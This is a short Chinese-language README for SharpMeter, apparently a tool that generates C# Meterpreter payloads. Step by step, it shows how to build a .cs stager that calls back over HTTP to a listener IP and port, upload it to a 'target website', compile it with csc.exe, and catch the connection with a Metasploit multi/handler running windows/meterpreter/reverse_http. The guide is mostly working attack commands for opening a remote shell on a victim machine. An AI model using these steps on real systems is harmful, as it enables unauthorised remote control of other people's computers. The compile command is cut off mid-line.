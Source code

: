 # SharpMeter
原地址：https://github.com/vvalien/SharpMeter


#用法:

1. 生成一个.cs文件：

	+msf接收IP：192.168.18.129

	+msf接收PORT: 61051

	+用http传输

例如:

python SharpMeter.py 192.168.18.129 61051 kill.cs http

2. 上传到目标网站

编译成exe

E:\>C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /out:"kill.exe" /platform:

#MSF上监听：
use exploit/multi/handler

set payload windows/meterpreter/reverse_http

set LHOST 0.0.0.0

set LPORT 61051

set ExitOnSession false

set EnableStageEncoding true

set EnableUnicodeEncoding true

exploit -j



